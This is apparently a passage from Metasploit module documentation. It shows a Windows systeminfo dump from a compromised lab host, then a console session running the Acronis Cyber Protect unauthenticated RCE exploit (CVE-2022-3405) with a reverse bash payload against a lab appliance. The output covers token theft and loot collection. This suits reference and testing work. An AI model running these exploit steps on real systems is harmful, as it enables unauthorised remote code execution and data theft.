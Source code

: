 ```msf
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+01:00) Amsterdam, Berlin, Bern, Rome, Stockholm, Vienna
Total Physical Memory:     2,048 MB
Available Physical Memory: 475 MB
Virtual Memory: Max Size:  4,224 MB
Virtual Memory: Available: 2,800 MB
Virtual Memory: In Use:    1,424 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.201.5
                                 [02]: fe80::85ec:4690:3774:2b6b
                                 [03]: fdf7:94fa:75b3:fe44:85ec:4690:3774:2b6b
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Windows\system32>
```
### Acronis Cyber Backup 15 build 27009 VMware appliance - Linux target
```msf
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set target 0
target => 0
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] Acronis Cyber Protect/Backup 15.0.27009 - VULNERABLE
[*] Retrieve first online target registered at the Acronis Cyber Protect/Backup appliance.
[+] Configuration details are successfully saved in json format to /root/.msf4/loot/20241023121954_default_192.168.201.6_acronis.cyber.pr_571431.bin
[*] Found online target matching your target setting Unix/Linux Command.
[+] hostId: D287E868-EDBB-4FE9-85A9-F928AA10EE5D
[+] parentId: 00000000-0000-0000-0000-000000000000
[+] key: phm.EA9A6E26-38B5-4727-9957-FD7CDD7BF2CC@D287E868-EDBB-4FE9-85A9-F928AA10EE5D.disks
[*] type: machine
[*] hostname: AcronisAppliance-FCD94
[*] IP: 192.168.201.6
[*] OS: Linux: CentOS Linux release 7.6.1810 (Core)
[*] ARCH: linux
[*] ONLINE: true
```